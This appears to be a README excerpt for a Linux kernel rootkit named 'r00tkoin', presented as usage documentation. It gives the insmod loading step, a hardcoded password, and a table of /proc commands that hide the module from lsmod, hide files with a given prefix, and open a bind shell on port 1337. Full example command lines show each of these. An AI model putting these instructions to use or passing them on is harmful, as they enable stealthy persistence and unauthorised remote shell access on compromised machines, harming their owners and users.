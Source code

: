 ```bash
# Load the module
sudo insmod output/r00tkoin.ko

# Verify loading (module will be visible initially)
lsmod | grep r00tkoin

# Check communication interface
cat /proc/r00t_comm
```

## Usage

### Communication Interface

All commands are sent through the proc interface using the following format:

```bash
echo 'PASSWORD COMMAND' > /proc/r00t_comm
```

**Default Password**: `r00tkoinFTW1337`

### Available Commands

| Command | Description |
|---------|-------------|
| `hide` | Hide module from lsmod |
| `unhide` | Make module visible in lsmod |
| `filehide` | Enable file hiding (prefix: r00t_) |
| `fileshow` | Disable file hiding |
| `bindshell` | Start bind shell on port 1337 |
| `stopshell` | Stop bind shell |
| `status` | Show current module status |
| `help` | Display available commands |

### Examples

```bash
# Hide the module
echo 'r00tkoinFTW1337 hide' > /proc/r00t_comm

# Enable file hiding
echo 'r00tkoinFTW1337 filehide' > /proc/r00t_comm

# Start bind shell
echo 'r00tkoinFTW1337 bindshell' > /proc/r00t_comm

# Check status
echo 'r00tkoinFTW1337 status' > /proc/r00t_comm

# Monitor kernel logs for responses
dmesg | tail
```
